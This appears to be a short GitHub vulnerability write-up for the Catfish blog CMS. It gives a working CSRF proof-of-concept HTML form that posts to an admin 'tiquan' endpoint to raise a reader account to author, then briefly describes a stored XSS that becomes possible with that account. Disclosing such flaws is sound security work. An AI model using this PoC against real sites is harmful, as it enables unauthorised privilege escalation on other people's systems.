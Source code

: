 # catfishblog
## CSRF

Register an account 
![](https://github.com/AvaterXXX/catfish/blob/master/catfishblog/CSRF1.png)
Current permissions are readers
![](https://github.com/AvaterXXX/catfish/blob/master/catfishblog/CSRF2.png)
use poc
```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://10.33.62.73:8080/admin/Index/tiquan" method="POST">
      <input type="hidden" name="id" value="4" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
Permission changed to author
![](https://github.com/AvaterXXX/catfish/blob/master/catfishblog/CSRF3.png)
-----------------
## XSS
Use the account after the privilege,write soucre code
![](https://github.com/AvaterXXX/catfish/blob/master/catfishblog/2.png)
Successfully click on the page 
![](https://github.com/AvaterXXX/catfish/blob/master/catfishblog/4.png)
